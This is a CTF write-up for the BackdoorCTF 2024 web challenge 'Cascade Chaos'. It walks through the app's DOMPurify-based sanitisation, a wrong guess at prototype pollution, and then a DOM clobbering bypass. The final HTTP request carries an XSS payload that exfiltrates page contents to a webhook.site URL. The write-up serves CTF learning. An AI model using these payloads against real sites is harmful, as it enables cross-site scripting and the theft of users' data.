 ```yaml
---
title: "Cascade Chaos"
description: "A Markdown app that looks harmless... or is it? Can you find the subtle cracks in the system and make things a bit more... interesting? A little creativity goes a long way."
pubDate: 2024-12-23
ctf: "BackdoorCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-backdoor/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/backdoorctf2024#vulnkart)

Looking at the setup I presume its some dompurify exploit due to old version (`3.0.1` compared to latest `3.2.3` as of writing)
```html
...
  </style>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.1/purify.min.js"></script>
</head>
```

The markdown app seems to have dompurified input in the heading and then markdown payload:
```html
<body>
  <div class="heading">
  </div>

  <script>
    const heading = decodeURIComponent(`<%- heading -%>`);
    const headingDiv = document.querySelector(".heading");
    const content = DOMPurify.sanitize(heading);
    headingDiv.innerHTML = content;
  </script>
  <div class="content">
  </div>
  <button class="btn" id="showToAdminBtn">Show to Admin</button>

  <script>
    const body = decodeURIComponent(`<%- body -%>`);
    const contentDiv = document.querySelector(".content");
    if (window.isSafe) {
      contentDiv.innerHTML = body;
    } else {
      const sanitizedContent = DOMPurify.sanitize(body);
      contentDiv.innerHTML = sanitizedContent;
    }

    document.getElementById("showToAdminBtn").addEventListener("click", async () => {
      const contentDiv = document.querySelector(".content");
      const content = contentDiv.innerHTML.trim();
      const heading = document.querySelector(".heading").innerHTML.trim();

      const data = {
        content: content,
        heading: heading
      };
      let response = await fetch("/visit", {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify(data)
      });
      const result = await response.text();
      alert(result);
    });

  </script>
</body>
```

The Markdown payload is not sanitised if `window.isSafe` is set, so perhaps a prototype pollution in the heading, then normal XSS in Markdown?

The repo has an issue [Tampering by prototype pollution (high)](https://github.com/cure53/DOMPurify/security/advisories/GHSA-mmhx-hmjr-r674) A.K.A. `CVE-2024-45801` that is valid in <3.1.3 

Likely have to [commit diff for the 3.x patch](https://github.com/cure53/DOMPurify/commit/1e520262bf4c66b5efda49e2316d6d1246ca7b21)

## Post-CTF Solve

Turns out I'm completely wrong, thanks to my friend ([warlocksmurf](https://warlocksmurf.github.io/) my beloved) sharing their teams' path.

DOM clobbering (which I'd never heard of previously was the idea)

allows XSS on the remote service

```html
<a id="isSafe">
```
for the header

XSS in local service, colour parameter had injection point

```
POST /visit HTTP/1.1
Host: 35.224.222.30:4001
Content-Length: 323
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://35.224.222.30:4001
Referer: http://35.224.222.30:4001/convert?heading=%3Ca+id%3DisSafe%3E&content=%3Cimg%20src%3D%22x%22%20onerror%3D%22fetch(%27http%3A%2F%2Fhttpforever.com%27,%20%7B%20mode%3A%20%27no-cors%27%20%7D)%20.then(response%20%3D%3E%20response.text())%20.then(data%20%3D%3E%20location.href%20%3D%20%27https%3A%2F%2Fwebhook.site%2F0456830e-cbc2-4057-b98c-fe389f00f79c%2F%3Fc%3D%27%20%2B%20encodeURIComponent(data))%3B%22%3E
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "content": "<p><img src=\"x\" onerror=\"location.href='http://local:4002/flag?color=black</style><script>window.onload=function(){location.href=%27https://webhook.site/0456830e-cbc2-4057-b98c-fe389f00f79c/?c=%27%2bbtoa(document.documentElement.outerHTML)}</script>'\" ></p>",
  "heading": "<a id=\"isSafe\"></a>"
}
```